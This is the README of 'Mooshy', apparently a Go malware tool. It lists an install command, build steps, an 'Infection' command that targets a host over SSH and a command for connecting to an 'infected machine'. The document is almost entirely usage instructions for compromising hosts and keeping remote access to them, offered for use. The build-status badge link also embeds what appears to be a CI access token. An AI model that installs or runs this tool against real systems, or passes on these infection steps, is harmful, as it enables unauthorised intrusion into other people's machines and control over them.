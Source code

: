 [![Build Status](https://travis-ci.com/rvolosatovs/mooshy.svg?token=Rr1zHeZEE84zs4P7sgSv&branch=master)](https://travis-ci.com/rvolosatovs/mooshy)

# Mooshy

[![asciicast](https://asciinema.org/a/SHth0ikiPmRPx4QRv8hXf61RN.png)](https://asciinema.org/a/SHth0ikiPmRPx4QRv8hXf61RN)

Installation:
```sh
    go get -u -v github.com/rvolosatovs/mooshy/cmd/mooshy
```

Development:
```sh
    make deps # only first time
    make
```

Infection:
```sh
    mooshy -ssh -addr <host>
```

Connecting to infected machine:
```sh
    mooshy -addr <host>
```
